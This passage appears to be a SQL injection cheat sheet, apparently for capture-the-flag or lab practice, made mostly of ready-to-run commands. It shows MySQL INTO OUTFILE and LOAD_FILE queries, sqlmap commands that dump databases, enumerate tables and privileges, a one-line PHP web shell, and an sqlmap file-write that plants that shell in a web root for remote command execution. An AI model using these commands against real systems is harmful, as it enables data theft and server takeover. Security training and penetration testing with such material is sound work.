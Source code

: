 ```sql
SELECT @@GLOBAL.secure_file_priv;
```

```sql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt'
```

```sql
SELECT LOAD_FILE('/var/lib/mysql-files/test.txt')
```

### Remote code execution

Here’s an example command to perform Error-based SQL Injection using SQLmap:

```shell
sqlmap -u "http://example.com/vulnerable.php?id=1" --technique E --dump
```

This command specifies the target URL and injection point using the -u option, the Error-based SQL Injection technique using the --technique option, and the --dump option to extract data from the database.

```shell
sqlmap -u "http://example/index.php?id=8" --tables --batch
```

```shell
sqlmap -u "http://example/index.php?id=8" -D extramile -T flags --columns --batch
```

```shell
sqlmap -u "http://example/page.php?id=8" --privileges --current-user
```

#### shell.php

```shell
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
```

    - http://target.com/shell.php?cmd=whoami

```shell
sqlmap -u "http://target.com/page.php?id=1" \
--file-write="shell.php" \
--file-dest="/var/www/html/shell.php" \
--batch
```

```shell
cp /root/flag.txt /var/www/html/
```

```shell
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump --flush-session
```

```shell
sqlmap -r burp_sqlmap-test.txt --dbms=PostgreSQL --flush-session --batch --dump
```
